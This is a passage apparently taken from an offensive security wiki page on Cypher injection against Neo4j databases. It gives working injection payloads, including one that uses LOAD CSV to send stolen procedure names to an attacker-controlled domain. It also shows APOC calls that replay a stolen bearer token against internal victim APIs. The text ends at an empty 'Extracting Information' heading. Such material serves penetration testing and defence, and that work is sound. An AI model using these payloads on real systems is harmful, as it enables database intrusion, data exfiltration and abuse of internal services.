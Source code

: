 It's possible to use the following method to exfiltrate information to the attacker controlled domain:

```sql
LOAD CSV FROM 'https://attacker.com/'
```

For example

```sql
// Injection in:
MATCH (o) WHEREo.Id='{input}' RETURN o

// Injection to get all the preocedures
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 

```

## APOC

The first thing an attacker should check is **whether APOC is installed**. APOC (awesome procedures on Cypher) is an **extremely popular**, officially supported plugin for Neo4j that greatly enhances its capabilities. APOC adds many **additional functions and procedures** that developers can use in their environment. Attackers can use the various procedures and functions APOC offers to carry out more advanced attacks.

### Procedures to process data & send HTTP requests

* `apoc.convert.toJson` — converts nodes, maps, and more to JSON
* `apoc.text.base64Encode` — gets a string and encodes it as base64

It's possible to **set headers** and **send other methods** than GET. Examples:

{% code overflow="wrap" %}
```sql
CALL apoc.load.jsonParams("http://victim.internal/api/user",{ method: "POST", `Authorization`:"BEARER " + hacked_token},'{"name":"attacker", "password":"rockyou1"}',"") yield value as value 

CALL apoc.load.csvParams("http://victim.internal/api/me",{ `Authorization`:"BEARER " + hacked_token}, null,{header:FALSE}) yield list 
```
{% endcode %}

### Procedures to eval queries

* `apoc.cypher.runFirstColumnMany` — a function that returns the values of the first column as a list
* `apoc.cypher.runFirstColumnSingle` — a function that returns the first value of the first column
* `apoc.cypher.run` — a procedure that runs a query and returns the results as a map
* `apoc.cypher.runMany` — a procedure that runs a query or multiple queries separated by a semicolon and returns the results as a map. The queries run in a different transaction.

## Extracting Information
